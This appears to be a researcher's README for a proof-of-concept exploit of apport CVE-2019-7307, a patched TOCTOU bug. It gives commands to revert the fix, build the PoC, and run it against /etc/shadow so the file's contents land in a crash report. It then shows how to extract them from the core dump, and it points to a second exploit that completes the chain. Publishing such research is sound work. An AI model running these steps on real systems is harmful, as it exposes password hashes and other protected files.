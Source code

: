 # TOCTOU in _get_ignore_dom (apport CVE-2019-7307)

[CVE-2019-7307](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7307)
is a time-of-check to time-of-use (TOCTOU) vulnerability in
[apport](https://launchpad.net/ubuntu/+source/apport),
which enables an unprivileged local user to trick apport into
including the contents of an arbitrary file in a crash report.
The full bug report is public on `bugs.launchpad.net`:
[bug 1830858](https://bugs.launchpad.net/ubuntu/+source/apport/+bug/1830858).

## Instructions

I usually try to provide a `Dockerfile` so that my PoCs are safely reproducible on a patched system.
Unfortunately, apport is specifically designed to behave differently inside a container,
so I am not able to do so this time.
Instead, if you would like to test the exploit,
then you will need to revert the bug fix in your apport installation.
You can do that as follows:

```bash
git clone https://git.launchpad.net/ubuntu/+source/apport
cd apport
git checkout applied/2.20.9-0ubuntu7.6
sudo cp apport/report.py /usr/lib/python3/dist-packages/apport/report.py
```

When you are done, don't forget to fix your installation:

```bash
sudo apt-get install --reinstall python3-apport
```

Build the PoC for apport CVE-2019-7307 like this:

```bash
make
```

And run it like this:

```bash
./gencrashreport /etc/shadow
```

This will create a file named `/var/crash/_usr_share_apport_apport.0.crash`,
which is owned by `root`, but also readable by `whoopsie`.
For a full exploit chain, we therefore also need a second exploit that enables us to read files as whoopsie.
I didn't have such an exploit when CVE-2019-7307 was disclosed on 2019-07-09, but I do now:
see [README_CVE-2019-15790](/Ubuntu/Apport_TOCTOU_get_ignore_dom_CVE-2019-7307/README_CVE-2019-15790.md).
But to keep these instructions self-contained,
it is simplest to just change the permissions of the crash report:

```bash
sudo chmod 666 /var/crash/_usr_share_apport_apport.0.crash
```

At this point, you can unpack the crash report and see that the contents of `/etc/shadow` are embedded in the `CoreDump` file:

```bash
mkdir report
apport-unpack /var/crash/_usr_share_apport_apport.0.crash report
cd report
```

Note: `apport-unpack` is a bit flaky and usually crashes with an error message like this: `['ProcEnviron', 'UserGroups'] has no binary content`. But it works well enough to extract the core dump from the report. Now use your favorite text editor to open `CoreDump` and search for the contents of `/etc/password`. Searching for the string "root:" usually works.
